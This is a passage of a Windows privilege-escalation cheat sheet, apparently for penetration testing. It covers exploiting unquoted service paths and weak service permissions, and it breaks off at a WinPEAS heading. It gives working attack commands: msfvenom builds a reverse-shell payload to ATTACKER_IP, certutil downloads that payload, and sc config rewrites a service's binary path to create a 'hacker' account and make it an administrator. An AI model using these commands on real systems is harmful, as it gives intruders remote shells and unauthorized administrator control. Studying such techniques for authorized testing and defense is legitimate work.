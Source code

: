```bash
# On Kali: Create payload matching the space in path
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4444 -f exe -o Program.exe
```

```powershell
# Upload to exploit the space
# Example: C:\Program Files\Vulnerable App\service.exe
# Create: C:\Program.exe

certutil -urlcache -f http://ATTACKER_IP/Program.exe "C:\Program.exe"

# Restart service
sc stop VulnerableService
sc start VulnerableService
```

---

## Priority 4: Weak Service Permissions

### Check Service Permissions

```powershell
# List all services
sc query

# Check specific service permissions
sc qc ServiceName

# Using accesschk (Sysinternals)
accesschk.exe /accepteula -uwcqv "Authenticated Users" *
```

### Exploitation

```powershell
# If you can modify service config
sc config VulnerableService binpath= "cmd /c net user hacker Password123! /add"
sc stop VulnerableService
sc start VulnerableService

# Add to administrators
sc config VulnerableService binpath= "cmd /c net localgroup administrators hacker /add"
sc stop VulnerableService  
sc start VulnerableService
```

---

## Automated Enumeration

### WinPEAS
